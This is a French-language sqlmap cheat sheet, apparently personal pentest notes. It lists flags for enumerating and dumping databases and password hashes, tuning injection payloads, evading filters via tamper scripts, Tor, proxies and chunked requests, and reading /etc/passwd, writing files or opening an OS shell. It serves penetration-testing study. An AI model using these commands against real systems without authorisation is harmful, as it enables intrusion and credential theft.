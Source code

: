 Pour extraire requête d'un site web: 
1. F12 > Réseau > clique droit sur requête > Copie cURL
2. remplacer curl par sqlmap
3. -p pour marquer un param ou * après un param ex: “id=1*”
4. Copier l'en-tête dans un fichier et -r entete.txt pour l'exécuter

* --host, --referer, and -A/--user-agent --random-agent 
* --mobile (en-tête mobile)
* --method PUT

Utiliser * dans l'entete pour la tester

# Enumération
| commande |
| --- |
|--banner|
|--hostname|
|--current-db|
|--current-user|
|--passwords|

# Extraction
| commande | description |
| --- | --- |
| --tables ||
|--dump<br>	-T [table]<br> -D [BD]<br> -C [colonne]<br>	```--where="name LIKE 'kimberly%'"``` ||
| --dump-all --exclude -sysdbs ||
| --schema ||
| --search -T user 		|Cherche tables contenant le mot user|
| --passwords			|mot de passes dans BD systèmes |

# Tuning
| commande | description |
| --- | --- |
| ```--prefix="%'))" --suffix="-- -"``` | |
| ```--level [1-5]``` |	étend les vecteurs et frontières|
| ```--rist [1-3]``` |étend les vecteurs. Peut avoir à augmenter le risk dans le cas de OR, page d'authentification. Requête vulnérable modifie peut-être la BD?|
| ```--code=200``` |	code pour détecter VRAI|
| ```--title``` |			utilise la balise HTML \<title> pour différencier|
| ```--string=success``` |	chaîne se retrouvant dans la réponse VRAI|
| ```--text-only``` |	regarde seulement le texte visible|
| ```--technique=BEU``` |	limite les techniques|
| ```--union-from=users``` |	appendice pour union|
| ```--union-cols=5``` ||

# Debug
| commande | description |
| --- | --- |
| ```--parse-errors``` | 	pour afficher les erreurs |
| ```-t fichier.txt``` | 		sauvegarder le traffic |
| ```-v [1-6]``` |			verbosité (3 voit payload) |
| ```--proxy``` |			Peut renvoyer le traffic vers burp pour analyse |

# Passer protections
| commande | description |
| --- | --- |
| ```--csrf-token=<nom_jeton>``` ||
| ```--randomize=<nom_param>``` | |
| ```--eval="import hashlib; h=hashlib.md5(id).hexdigest()"``` | Quand calcul côté client attendu ex: h=MD5(id)	|
| ```--proxy="socks4://177.39.187.70:33283"``` ||
| ```--proxy-file``` | |
| ```--tor	``` |		ressort par un noeud TOR doit avoir un proxy SOCKS4 sur 9050 our 9150|
| ```--check-tor``` |	vérifie connexion TOR en se connectant sur https://check.torproject.org/|
| ```--random-agent``` ||
| ```--tamper=script,script,...``` ||
| ```--list-tampers``` ||
| ```--chunked	``` |	passe les requêtes proscrites en plusieurs paquets. Peut aussi séparer les requêtes sur plusieurs params reconstruits par la cible si supporté ```?id=1&id=UNION&id=SELECT&id=username,password&id=FROM&id=users...```)
	
# Exécution
| commande | description |
| --- | --- |
| ```--file-read "/etc/passwd"``` ||
| ```--file-write <fichier> --file-dest <destination>``` ||
| ```--os-shell	``` |	Exécute du code. La version 64bit ou 32bit est importante!|
